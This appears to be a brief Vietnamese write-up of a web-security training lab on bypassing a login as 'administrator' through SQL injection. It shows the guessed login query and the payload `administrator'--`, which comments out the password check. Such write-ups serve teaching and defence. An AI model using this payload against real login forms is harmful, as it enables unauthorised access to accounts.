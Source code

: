 ![image](images/lab-2/lab-2.png)

Bài lab yêu cầu chúng ta đăng nhập với user là `administrator` nhưng chúng ta không biết password.

Chúng ta có thể dự đoán server sẽ thực hiện câu truy vấn:

```sql
SELECT * FROM users WHERE username = '<username>' AND password = '<password>'
```

Vậy chúng ta sẽ nhập username là `administrator'--` và password bất kì để câu truy vấn trở thành:

```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = '<password>'
```

Từ đó, chúng ta đăng nhập thành công:

